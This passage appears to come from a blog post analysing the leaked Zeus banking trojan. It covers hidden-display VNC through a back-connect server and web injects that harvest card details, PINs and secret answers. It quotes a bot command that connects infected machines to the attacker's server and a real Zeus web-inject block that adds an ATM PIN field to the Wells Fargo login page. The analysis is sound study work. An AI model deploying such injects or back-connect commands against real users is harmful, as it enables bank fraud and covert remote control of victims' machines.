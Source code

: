 ```bash
bot_bc_add vnc 172.16.50.181 9000
```

This tells the bot where to connect to wait for a VNC session.

Next, the attacker can sit and watch hes Back Connect Server's output and see when a new bot has connected. He may now connect using hes VNC client to the client port of the back connect server and viola, VNC access. Alarmingly, the VNC access is not like your traditional VNC where the user will see the pointer move as the VNC user moves it. No, this VNC session starts in a separate **display**, ensuring that the user is still unaware of what is happening. This for me was the most alarming part. It's almost as if hes attaching to another *tty*.

{{< figure src="/images/zues_back_connect_vnc.png" >}}

### Web Injects, the real threat.
So all of this Remote Administration Stuff is cool. No doubt they are useful tools for an attacker, but this is not what has made Zeus what it is known for today. Zeus uses what is called **Web Injects** to manipulate website content. "What do you mean by 'manipulation'?" you may ask. Well, lets assume you are about to buy something online. Generally, the store would ask you for a Credit Card number and an expiry. Usually, on the next page you may be asked for the CVV number. With your machine infected with Zeus, the attacker is able to ask for your Credit Card Number, Expiry, CVV, Email Address, Address, Tel no., secret question etc etc all on one page. The page itself will look totally legit, and again, to the unsuspecting user, this may seem completely normal and away he goes entering hes details. Once submitted, Zeus captures the entire request, including the cookies, the POST data etc etc and based on the bots timer configurations, uploads this information to the Command & Control server. Just like the one we just used to Remotely Administer the infected machines.

With all this information, he may be able to return at a later stage, VNC to your computer and access your account to buy himself some new toys. Because he managed to get hold of your secret question, he finds no trouble in complying to any potential security checks the portal may bring.

#### How it works
When looking at the web injects, I guess the simplest way to describe them is similar to your favorite text editors search and replace features. With the Zeus bot hooked into some low level network API's in Windows, it is able to monitor for its configured URL's, and inject arbitrary content into the responses that are displayed in your browser. Lets take an example from the source [here](https://github.com/Visgean/Zeus/blob/translation/output/builder/webinjects.txt#L63).

```html
set_url https://www.wellsfargo.com/* G
data_before
<span class="mozcloak"><input type="password"*</span>
data_end
data_inject
<br><strong><label for="atmpin">ATM PIN</label>:</strong>&nbsp;<br />
<span class="mozcloak"><input type="password" accesskey="A" id="atmpin" name="USpass" size="13" maxlength="14" style="width:147px" tabindex="2" /></span>
data_end
data_after
data_end
```

In the above extract from the web injects we can see that the http**s**://wellsfargo.com (note the s) website will have a extra field added, asking for a *ATM PIN* before the password field. Now, an important thing to note here. Yes, a website owner could change the web sources which will make this web inject not work, however, the POST data will still be recorded for this watched URL and eventually stored on the C&C.
